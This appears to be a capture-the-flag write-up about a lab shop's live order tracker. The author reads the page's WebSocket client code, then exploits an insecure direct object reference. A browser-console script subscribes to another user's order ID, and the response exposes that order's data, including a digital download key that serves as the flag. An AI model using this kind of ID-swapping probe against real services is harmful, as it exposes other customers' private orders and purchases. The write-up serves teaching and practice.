



! Founded by two roommates who got tired of refreshing for shipping updates from other shops. Their pitch: live order status the moment anything changes, no page refresh required. The live tracker is their whole differentiator, and the first thing they shipped to production. 

## [01] Finding the WebSocket
On the main site we can gather a few possible places to test for vulnerabilities. We are able to create an account, view and track our orders, interact with an online shopping cart, and browse the products.


My first step was to create an account to see what privileges I was granted. Nothing abnormal so far, just a standard online shop. I decided to purchase a new video game and fulfill the purchasing process.


Once my order has been processed, I recieved a tracking number, as well as the live updates the site previously mentioned. The live order tracker shows it's currently connected, and we can see it might be pulling from a websocket from the developer tools in the browser.


Looking at the source code of the page also mentions and shows the websocket connection.
```js
---snip---
  <!-- ── Live tracker (live data over WebSocket) ────────────── -->
---snip---
<script>
  // ── Live order tracker client ──────────────────────────────
  // Opens a WebSocket to /ws/orders and subscribes to this order's id.
  // The server pushes the latest snapshot whenever the order changes.
  (function () {
    var orderId = 3;
    var connEl = document.getElementById("conn-status");

    var proto = window.location.protocol === "https:" ? "wss:" : "ws:";
    var ws = new WebSocket(proto + "//" + window.location.host + "/ws/orders");

    ws.addEventListener("open", function () {
      connEl.textContent = "connected";
      ws.send(JSON.stringify({ action: "subscribe", order_id: orderId }));
    });

    ws.addEventListener("message", function (evt) {
      var data;
      try { data = JSON.parse(evt.data); } catch (e) { return; }
      if (data.error) return;
      document.getElementById("cell-order-id").textContent = "#" + String(data.order_id).padStart(5, "0");
      document.getElementById("cell-tracking").textContent = data.tracking_number || "—";
      document.getElementById("cell-status").textContent = data.status;
      document.getElementById("cell-items").textContent = (data.items || []).length;
      document.getElementById("status-label").textContent =
        data.status.charAt(0).toUpperCase() + data.status.slice(1);
    });

    ws.addEventListener("close", function () { connEl.textContent = "disconnected"; });
  })();
</script>
```

One thing I saw that stood out was the `order_id`, as we saw my order ID was `#00003`. We can try and look at other users orders.

## [02] Exploiting the WebSocket via IDOR

First thing we should do is connect to the websocket. We can open the developer tools, and in the console we can establish a websocket connection by using the code below:
```js
const ws = new WebSocket("wss://" + location.host + "/ws/orders");

ws.onopen = () => {
    console.log("[+] WebSocket connected");

    ws.send(JSON.stringify({
        action: "subscribe",
        order_id: 1 // We change the order_id here. Our order_id was 3, so we can start at 1 to test for vulnerabilities. 
    }));

    console.log("[+] Subscription sent");
};

ws.onmessage = (e) => console.log("[+] Received:", e.data);

ws.onerror = (e) => console.log("[-] WebSocket error:", e);

ws.onclose = (e) => console.log("[-] Closed:", e.code, e.reason);
```

The socket kept closing on me when I would try and do each step manually, so I had to incorporate it all into essentially a one shot script per socket.
Looking at the response, we are able to find the flag.

```json
{
  "event": "order.snapshot",
  "order_id": 1,
  "status": "shipped",
  "tracking_number": "JS-2026-0001",
  "shipping_name": "JoyStick Store",
  "total_cents": 5999,
  "created_at": "2026-10-27 00:33:49",
  "items": [
    {
      "name": "Cyberglade — Digital Edition",
      "qty": 1,
      "unit_price_cents": 5999,
      "is_digital": 1,
      "download_key": "xxxxxxxx"
    }
  ]
}
```
